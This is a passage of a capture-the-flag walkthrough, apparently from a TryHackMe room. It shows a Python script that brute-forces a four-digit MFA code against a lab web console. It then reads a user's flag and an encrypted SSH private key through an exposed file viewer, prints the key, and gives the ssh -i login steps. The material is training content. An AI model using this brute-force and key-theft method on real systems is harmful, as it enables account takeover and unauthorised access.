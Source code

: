 10. I created a python script to brute force the mfa using the cookie and data structure. Replace the `PHPSESSID` with your own cookie, which you can find with Inspect > Application > Cookies. Also replace the URL
```
import requests


for i in range(1000, 10000):
    x = requests.post("http://10.10.6.120/console/mfa.php", cookies={"PHPSESSID": "s9f328hipvn89ca7e3duvev7a1", "user": "jason_test_account", "pwd": "violet"}, data={"code": f"{i}"})
    print(i)
    if "Incorrect" not in x.text:
        print("Your code is", i)
        break
```

11. After finding the code, enter the code and we're directed to a filel browser and a file viewer. In the file browser, use `/home` and we find 2 users, fred and jason. Using `/home/jason` shows us that there's a `user.txt` in jason's directory. Use `/home/jason/user.txt` in the file viewer to get `THM{6fbf1fb7241dac060cd3abba70c33070}`

12. We also see a `.ssh` in jason's directory. It has 3 files, authorized_keys, id_rsa, and id_rsa.pub. When we try to open them with the file viewer, we see that we have access to id_rsa and id_rsa.pub but not to authorized_keys. That's fine, because we can copy the private key from id_rsa onto our own machine and login with the private key. Make a new file on your machine, copy the text from `id_rsa` onto it, change the permissions of the private key file with `chmod 600 id_rsa`. When we try it with `ssh -i <private key file> jason@<ip>` we see that we need a passphrase for the private key
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,983BDF3BE962B7E88A5193CD1551E9B9

nspZgFs2AHTCqQUdGbA0reuNel2jMB/3yaTZvAnqYt82m6Kb2ViAqlFtrvxJUTkx
vbc2h5vIV7N54sHQvFzmNcPTmOpy7cp4Wnd5ttgGpykiBTni6xeE0g2miyEUu+Qj
JaLEJzzdiehg0R3LDqZqeuVvy9Cc1WItPuKRLHJtoiKHsFvm9arbW4F/Jxa7aVgH
l5rfo6pEI0liruklDfFrDjz96OaRtdkOpM3Q3GxYV2Xm4h/Eg0CamC7xJC8RHr/w
EONcJm5rHB6nDVV5zew+dCpYa83dMViq7LOGEZ9QdsVqHS59RYEffMc45jkKv3Kn
ky+y75CgYCWjtLbhUc4Ml21kYz/pDdObncIRH3m6aF3w/b0F/RlyAYQYUYGfR3/5
Y9a2/hVbBLX7oM+KQqWHD5c05mLNfAYWTUxtbANVy797CSzYssMcCrld7OnDtFx7
qPonOIRjgtfCodJuCou0o3jRpzwCwTyfOvnd29SF70rN8klzjpxvqNEEbSfnh04m
ss1fTMX1eypmCsHecmpjloTxdPdj1aDorwLkJZtn7h+o3mkWG0H8vnCZArtxeiiX
t/89evJXhVKHSgf83xPvCUvnd2KSjTakBNmsSKoBL2b3AN3S/wwapEzdcuKG5y3u
wBvVfNpAD3PmqTpvFLClidnR1mWE4r4G1dHwxjYurEnu9XKO4d+Z1VAPLI2gTmtd
NblKTwZQCWp20rRErOyT9MxjT1gTkVmpiJ0ObzQHOGKJIVaMS8oEng2gYs48nugS
AsafORd3khez4r/5g9opRj8rdCkK83fG5WA15kzcOJ+BqiKyGU26hCbNuOAHaAbq
Zp+Jqf4K6FcKsrL2VVCmPKOvkTEItVIFGDywp3u+v0LGjML0wbrGtGzP7pPqYTZ5
gJ4TBOa5FUfhQPAJXXJU3pz5svAHgTsTMRw7p8CSfedCW/85bMWgzt5XuQdiHZA0
FeZErRU54+ntlJ1YdLEjVWbhVhzHyBXnEXofj7XHaNvG7+r2bH8GYL6PeSK1Iiz7
/SiK/v4kjOP8Ay/35YFyfCYCykhdJO648MXb+bjblrAJldeXO2jAyu4LlFlJlv6/
bKB7viLrzVDSzXIrFHNoVdFmLqT3yEmui4JgFPgtWoHUOQNUw8mDdfCR0x3GAXZP
XIU1Yn67iZ9TMz6z8HDuc04GhiE0hzI6JBKJP8vGg7X8rBuA7DgoFujSOg7e8HYX
7t07CkDJcAfqy/IULQ8pWtEFTSXz1bFpl360v42dELc6BwhYu4Z4qza9FtYS0L/d
ts5aw3VS07Xp5v/pX+RogV8uIa0jOKTkVy5ZnnlJk1qa9zWX3o8cz0P4TualAn+h
dQBVNOgRIZ11a6NU0bhLCJTL2ZheUwe9MTqvgRn1FVsv4yFGo/hIXb6BtXQE74fD
xF6icxCBWQSbU8zgkl2QHheONYdfNN0aesoFGWwvRw0/HMr4/g3g7djFc+6rrbQY
xibeJfxvGyw0mp2eGebQDM5XiLhB0jI4wtVlvkUpd+smws03mbmYfT4ghwCyM1ru
VpKcbfvlpUuMb4AH1KN0ifFJ0q3Te560LYc7QC44Y1g41ZmHigU7YOsweBieWkY2
-----END RSA PRIVATE KEY-----
```
